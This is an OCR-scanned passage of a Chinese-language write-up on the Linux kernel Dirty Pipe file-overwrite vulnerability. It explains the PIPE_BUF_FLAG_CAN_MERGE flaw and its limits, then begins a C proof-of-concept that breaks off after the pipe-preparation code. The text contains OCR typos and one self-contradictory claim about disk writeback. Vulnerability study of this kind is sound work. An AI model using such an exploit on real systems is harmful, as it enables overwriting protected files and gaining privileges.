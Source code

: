   * 文件覆写入管道后，实际磁盘上不会发生任何更改，只是对页面缓冲区（在内存中）进行了更改，内容并没有被永久更改。Linux Kernel v5.8—`IPE_BUF_FLAG_CAN_MERGE`。当一个程序使用管道写入数据时，pipwrite()调用会处理数据写入工作，默认情况下，多次写入操作是要写入环形缓冲区的一个新页面，但是如果单次写入操作没满一个页面大小，就会造成内存空间的浪费，所以pipbuffer中的每一个页面都包含一个can_merge属性，该属性可以在下一次pipe_write()操作执行时，指示内核继续向同一个页面继续写入数据，而不是获取一个新的页面进行写入。简单来说，这个标志允许用户告诉内核在数据写入时将页面写回磁盘。这个错误允许我们为管道指定任意标志，系统调用无意中允许我们将管道指向以只读方式打开的页面缓冲区。

漏洞本质：splice()系统调用将包含文件的页面缓存（Pagechace），连接到pipe到环形缓冲区（pip_buffer）时，在
copy_page_to_iter_pipe 和 push_pipe
函数中未能正确清除页面“PIPE_BUF_CAN_MERGE”属性（内核写入管道指向的页面的更改应该直接写回页面来源的文件。），导致后续进行pipe_write()操作时错误判定“write操作可合并”，从而将非法数据写入页面缓存，导致文件覆盖漏洞。

漏洞限制：

  1. 被覆盖文件必须具有可读权限

  2. pipe_buffer缓冲区中覆写页面缓存数据，splice()函数需要读取至少一字节的数据进入管道，所以页面第一个字节时不可修改的，单次写入数据不能大于4kb

  3. 任意文件覆盖写入时，不能调整文件的大小

## 0x04 漏洞复现

    
          1. #define _GNU_SOURCE
    
      2. #include <unistd.h>
    
      3. #include <fcntl.h>
    
      4. #include <stdio.h>
    
      5. #include <stdlib.h>
    
      6. #include <string.h>
    
      7. #include <sys/stat.h>
    
      8. #include <sys/user.h>
    
      9.   10. #ifndef PAGE_SIZE
    
      11. #define PAGE_SIZE 4096
    
      12. #endif
    
      13.   14. /**
    
      15.  * Create a pipe where all "bufs" on the pipe_inode_info ring have the
    
      16.  * PIPE_BUF_FLAG_CAN_MERGE flag set.
    
      17.  */
    
      18. static void prepare_pipe(int p[2])
    
      19. {
    
      20.     if (pipe(p)) abort();
    
      21.      // 获取Pipe可使用的最大页面数量
    
      22.     const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
    
      23.     static char buffer[4096];
    